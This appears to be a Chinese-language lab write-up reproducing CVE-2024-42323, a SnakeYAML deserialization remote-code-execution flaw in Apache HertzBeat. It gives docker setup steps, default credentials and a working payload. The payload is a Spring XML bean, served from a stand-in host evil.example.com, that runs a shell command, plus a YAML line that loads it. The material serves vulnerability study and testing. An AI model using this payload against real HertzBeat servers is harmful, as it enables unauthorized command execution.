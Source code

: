 # Apache HertzBeat SnakeYaml 反序列化远程代码执行漏洞（CVE-2024-42323）

Apache HertzBeat 是一款开源的实时监控告警工具，支持对操作系统、中间件、数据库等多种对象进行监控，并提供 Web 界面进行管理。

在 1.6.0 版本之前，HertzBeat 使用了存在安全漏洞的 SnakeYAML 库来解析 YAML 文件。当已认证用户通过 `/api/monitors/import` 或 `/api/alert/defines/import` 接口导入新的监控类型时，可以提供特制的 YAML 内容触发不受信任数据的反序列化，最终可能导致在目标系统上执行远程代码。

参考链接：

- <https://forum.butian.net/article/612>
- <https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx>
- <https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md>

## 环境搭建

执行如下命令启动存在漏洞的 HertzBeat 1.4.4 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:1157/dashboard` 进入 HertzBeat 控制面板。默认登录凭据为：

- 用户名：`admin`
- 密码：`hertzbeat`

## 漏洞复现

首先，你需要准备一个恶意 XML 文件并放在任意 Web 服务器上，例如 `http://evil.example.com/spring.xml`，其内容如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="commandRunner" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>sh</value>
        <value>-c</value>
        <value><![CDATA[touch /tmp/success]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

然后构造一个包含以下内容的恶意 YAML 文件，这段 YAML 反序列化时会加载恶意 XML 文件：

```yaml
!!org.springframework.context.support.ClassPathXmlApplicationContext ["http://evil.example.com/spring.xml"]
```

然后登录 HertzBeat 后台，导航到任意监控页面并找到导入按钮，在这里将上面的恶意 YAML 文件导入：

![定位导入按钮](1.png)

HertzBeat 对 YAML 文件进行反序列化时，触发远程命令执行：

![导入恶意 YAML 文件](2.png)

如果攻击成功，payload 将在目标系统上执行。在本例中，我们可以通过检查容器中是否存在新创建的文件来验证执行结果：

![验证代码执行](3.png)

